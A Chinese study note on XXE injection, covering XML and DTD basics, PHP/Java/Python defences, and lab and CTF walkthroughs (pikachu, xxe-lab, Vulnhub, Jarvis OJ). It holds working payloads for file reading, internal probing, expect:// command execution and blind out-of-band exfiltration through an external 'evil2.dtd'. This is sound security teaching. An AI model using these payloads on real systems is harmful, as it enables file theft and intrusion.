

[TOC]


## 思维导图


## 基础知识

### XML

XML 被设计为传输和存储数据，XML 文档结构包括 XML 声明、
DTD 文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据
从 HTML 分离，是独立于软件和硬件的信息传输工具。

### XXE

XXE 漏洞全称
XML External Entity Injection，即 xml 外部实体注入漏洞，XXE 漏洞发
生在应用程序解析 XML 输入时，没有禁止外部实体的加载，导致可加载
恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站
等危害。


### XML 与 HTML 的主要差异

XML 被设计为传输和存储数据，其焦点是数据的内容。
HTML 被设计用来显示数据，其焦点是数据的外观。
HTML 旨在显示信息 ，而 XML 旨在传输信息。


```xml
<!--XML 声明-->
<?xml version="1.0"?>
<!--文档类型定义-->
<!DOCTYPE note [ <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)> <!--定义 note 元素有四个元素-->
<!ELEMENT to (#PCDATA)> <!--定义 to 元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)> <!--定义 from 元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)> <!--定义 head 元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)> <!--定义 body 元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

### DTD

文档类型定义（DTD）可定义合法的 XML 文档构建模块
它使用一系列合法的元素来定义文档的结构
DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用

```xml
（1）内部的 DOCTYPE 声明
<!DOCTYPE 根元素 [元素声明]>
（2）外部文档声明
<!DOCTYPE 根元素 SYSTEM ”文件名”>
```

### DTD 实体

```xml
（1）内部实体声明
<!ENTITY 实体名称 ”实体的值”>
（2）外部实体声明
<!ENTITY 实体名称 SYSTEM ”URI”>
（3）参数实体声明
<!ENTITY %实体名称 ”实体的值”>
<!ENTITY %实体名称 SYSTEM ”URI”>
```

### XXE 漏洞修复与防御方案-php,java,python-过滤及禁用

#### 方案 1-禁用外部实体

```txt
PHP:
libxml_disable_entity_loader(true);


JAVA:
DocumentBuilderFactory dbf
=DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);


Python：
from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```


#### 方案 2-过滤用户提交的 XML 数据

```txt
过滤关键词：<!DOCTYPE 和<!ENTITY，或者 SYSTEM 和 PUBLIC
```

## 涉及案例：

### pikachu 靶场 xml 数据传输测试-回显,玩法,协议,引入


#### 玩法-读文件

```XML

<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

在D盘创建test.txt


**pikachu靶场xxe**


#### 玩法-内网探针或攻击内网应用（触发漏洞地址）

**实际应用中基本碰不到**

**前提条件**  

- 内网IP地址
- 开放端口
- 纯在xxe漏洞
- 构造漏洞地址

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://192.168.80.1:80/test.txt" >
]>
<x>&rabbit;</x>

```


网站根目录下 	test.txt


#### 玩法-RCE

该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令  **实际应用中很难碰到**

```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

#### 引入外部实体 dtd

```

<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:80/evil2.dtd">
%file;
]>
<x>&send;</x>

```

**evil2.dtd:**

```

<!ENTITY send SYSTEM "file:///d:/test.txt">
```


#### 无回显-读取文件

```xml

<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/evil2.dtd">
%dtd;
%send;
]>

```

##### evil2.dtd

```xml

<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/?data=%file;'>"
>
%payload;
```

##### 


开启apache日志功能-access.log


5oiR54ix5ZCD55OcIQ==         base64解密  ———》           我爱吃瓜!




**协议-读文件（绕过）**
参考：https://www.cnblogs.com/20175211lyz/p/11413335.html

```

<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

开启回显（恢复把刚才注释的语句）

把上面的语句提交


### xxe-lab 靶场登陆框 xml 数据传输测试-检测发现

靶场下载地址：https://github.com/c0ny1/xxe-lab

1.提交的数据包含 XML 格式如：

```XML
<forgot><username>admin</username></forgot>
```

2.请求头中如：

- Content-Type：text/xml  
- Content-type:application/xml

```txt

<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///d:/test.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```


### CTF-Vulnhub-XXE 安全真题复现-检测,利用,拓展,实战

扫描 IP 及端口->扫描探针目录->抓包探针 xxe 安全->利用 xxe 读取源码->flag 指向文件->base32 64 解
密->php 运行->flag


```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```

#### 目标站点 

（不知道账号密码  ）


攻击机IP


#### 扫描网段

发现可疑地址


#### 浏览器访问可疑IP


#### 扫描探针目录，发现robots.txt


#### 访问robots.txt


 

#### 试着访问/xxe


#### 抓包该包


#### 查看xxe.php

```php
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$name = $info->name;
$password = $info->password;

echo "Sorry, this $name not available!";
?>
```


#### 查看admin.php

发现账号密码

```
<?php
   session_start();
?>


<html lang = "en">
   
   <head>
      <title>admin</title>
      <link href = "css/bootstrap.min.css" rel = "stylesheet">
      
      <style>
         body {
            padding-top: 40px;
            padding-bottom: 40px;
            background-color: #ADABAB;
         }
         
         .form-signin {
            max-width: 330px;
            padding: 15px;
            margin: 0 auto;
            color: #017572;
         }
         
         .form-signin .form-signin-heading,
         .form-signin .checkbox {
            margin-bottom: 10px;
         }
         
         .form-signin .checkbox {
            font-weight: normal;
         }
         
         .form-signin .form-control {
            position: relative;
            height: auto;
            -webkit-box-sizing: border-box;
            -moz-box-sizing: border-box;
            box-sizing: border-box;
            padding: 10px;
            font-size: 16px;
         }
         
         .form-signin .form-control:focus {
            z-index: 2;
         }
         
         .form-signin input[type="email"] {
            margin-bottom: -1px;
            border-bottom-right-radius: 0;
            border-bottom-left-radius: 0;
            border-color:#017572;
         }
         
         .form-signin input[type="password"] {
            margin-bottom: 10px;
            border-top-left-radius: 0;
            border-top-right-radius: 0;
            border-color:#017572;
         }
         
         h2{
            text-align: center;
            color: #017572;
         }
      </style>
      
   </head>
	
   <body>
      
      <h2>Enter Username and Password</h2> 
      <div class = "container form-signin">
         
         <?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) 
               && !empty($_POST['password'])) {
				
               if ($_POST['username'] == 'administhebest' && 
                  md5($_POST['password']) == 'e6e061838856bf47e1de730719fb2609') {
                  $_SESSION['valid'] = true;
                  $_SESSION['timeout'] = time();
                  $_SESSION['username'] = 'administhebest';
                  
                echo "You have entered valid use name and password <br />";
		$flag = "Here is the <a style='color:FF0000;' href='/flagmeout.php'>Flag</a>";
		echo $flag;
               }else {
                  $msg = 'Maybe Later';
               }
            }
         ?>
      </div> <!-- W00t/W00t -->
      
      <div class = "container">
      
         <form class = "form-signin" role = "form" 
            action = "<?php echo htmlspecialchars($_SERVER['PHP_SELF']); 
            ?>" method = "post">
            <h4 class = "form-signin-heading"><?php echo $msg; ?></h4>
            <input type = "text" class = "form-control" 
               name = "username" 
               required autofocus></br>
            <input type = "password" class = "form-control"
               name = "password" required>
            <button class = "btn btn-lg btn-primary btn-block" type = "submit" 
               name = "login">Login</button>
         </form>
			
         Click here to clean <a href = "adminlog.php" tite = "Logout">Session.
         
      </div> 
      
   </body>
</html>

```


```
if ($_POST['username'] == 'administhebest' && 
                  md5($_POST['password']) == 'e6e061838856bf47e1de730719fb2609') 
```


MD5查询


尝试登录/xxe/admin.php


发现flag，但是页面不能访问到


#### 使用 payload读取flagmeout.php文件

```xml

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=flagmeout.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```


解密获取到

```
PD9waHAKJGZsYWcgPSAiPCEtLSB0aGUgZmxhZyBpbiAoSlFaRk1NQ1pQRTRIS1dUTlBCVUZVNkpWTzVRVVFRSjUpIC0tPiI7CmVjaG8gJGZsYWc7Cj8+Cg==

```

base64解码


```php
<?php
$flag = "<!-- the flag in (JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5) -->";
echo $flag;
?>


```


JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5
base32————————》
L2V0Yy8uZmxhZy5waHA=
base64————————》
/etc/.flag.php

然后在使用payload语句
读取/etc/.flag.php


base64解码

```php
$_[]++;$_[]=$_._;$_____=$_[(++$__[])][(++$__[])+(++$__[])+(++$__[])];$_=$_[$_[+_]];$___=$__=$_[++$__[]];$____=$_=$_[+_];$_++;$_++;$_++;$_=$____.++$___.$___.++$_.$__.++$___;$__=$_;$_=$_____;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=+_;$___.=$__;$___=++$_^$___[+_];$À=+_;$Á=$Â=$Ã=$Ä=$Æ=$È=$É=$Ê=$Ë=++$Á[];$Â++;$Ã++;$Ã++;$Ä++;$Ä++;$Ä++;$Æ++;$Æ++;$Æ++;$Æ++;$È++;$È++;$È++;$È++;$È++;$É++;$É++;$É++;$É++;$É++;$É++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$__('$_="'.$___.$Á.$Â.$Ã.$___.$Á.$À.$Á.$___.$Á.$À.$È.$___.$Á.$À.$Ã.$___.$Á.$Â.$Ã.$___.$Á.$Â.$À.$___.$Á.$É.$Ã.$___.$Á.$É.$À.$___.$Á.$É.$À.$___.$Á.$Ä.$Æ.$___.$Á.$Ã.$É.$___.$Á.$Æ.$Á.$___.$Á.$È.$Ã.$___.$Á.$Ã.$É.$___.$Á.$È.$Ã.$___.$Á.$Æ.$É.$___.$Á.$Ã.$É.$___.$Á.$Ä.$Æ.$___.$Á.$Ä.$Á.$___.$Á.$È.$Ã.$___.$Á.$É.$Á.$___.$Á.$É.$Æ.'"');$__($_);


```

php在线运行

```php
PHP Notice:  Undefined variable: _ in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Undefined variable: __ in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Undefined variable: Á in /usercode/file.php on line 2
PHP Parse error:  syntax error, unexpected '{' in /usercode/file.php(2) : assert code on line 1
PHP Catchable fatal error:  assert(): Failure evaluating code: 
SAFCSP{xxe_is_so_easy} in /usercode/file.php on line 2
```

#### 获取flag
SAFCSP{xxe_is_so_easy} 


### CTF-Jarvis-OJ-Web-XXE 安全真题复现-数据请求格式

http://web.jarvisoj.com:9882/

更改请求数据格式：application/json   ---->   application/xml


```XML

<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```


### xxe 安全漏洞自动化注射脚本工具-XXEinjector(Ruby)

[https://www.cnblogs.com/bmjoker/p/9614990.html](https://www.cnblogs.com/bmjoker/p/9614990.html)
xxe_payload_fuzz

## 涉及资源：

[http://web.jarvisoj.com:9882/](http://web.jarvisoj.com:9882/)
[https://github.com/c0ny1/xxe-lab](https://github.com/c0ny1/xxe-lab)
[https://github.com/enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector)
[https://download.vulnhub.com/xxe/XXE.zip](https://download.vulnhub.com/xxe/XXE.zip)
[https://www.cnblogs.com/bmjoker/p/9614990.html](https://www.cnblogs.com/bmjoker/p/9614990.html)